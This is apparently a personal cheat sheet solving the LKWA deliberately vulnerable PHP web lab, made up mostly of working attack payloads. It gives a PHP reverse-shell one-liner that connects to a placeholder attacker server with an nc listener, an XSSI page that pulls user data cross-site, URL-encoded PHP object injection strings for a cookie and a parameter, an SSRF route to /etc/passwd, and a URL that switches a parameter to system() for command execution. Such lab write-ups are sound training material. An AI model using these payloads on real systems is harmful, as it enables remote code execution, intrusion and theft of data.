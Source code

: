 # lkwa-cheatsheet

- my environment: macOS Catalina 10.15.6

Thanks [LKWA](https://github.com/weev3/LKWA).

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the Browser(text box)
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `python3 -m http.server 3001`

access `http://localhost:3001/index.html` from browser.

<img src="https://github.com/fujiokayu/lkwa-cheatsheet/blob/master/evidence/0x02.png" width="200">

## 0x03 – PHP Object Injection

skip.  
I coudn't upload a shell.

## 0x04 – PHP Object Injection(cookie)

change cookie and inject php object as follow:  
O%3A3%3A%22Foo%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%0D%0A

## 0x05 – PHP Object Injection(Object Reference)

change request parameter input as follow:
O%3A7%3A%22Object1%22%3A2%3A%7Bs%3A5%3A%22guess%22%3BN%3Bs%3A10%3A%22secretCode%22%3BR%3A2%3B%7D%0D%0A

## 0x06 – PHAR Deserialization

## 0x07 – SSRF

current application directory is "/var/www/html".  
so let's try "http://localhost:3000/images/lkwa.png" to understand this api.  
  
this api also gets system files like "/etc/passwd".

## 0x08 – Variables variable

when you click Submit Button, you can see this URL in the address bar.
http://localhost:3000/variables/variable.php?func=var_dump&input=your_input

try to change [var_dumps](https://www.php.net/manual/ja/function.var-dump.php) to [system](https://www.php.net/manual/ja/function.system.php) and input value to system command like "http://localhost:3000/variables/variable.php?func=system&input=ls".

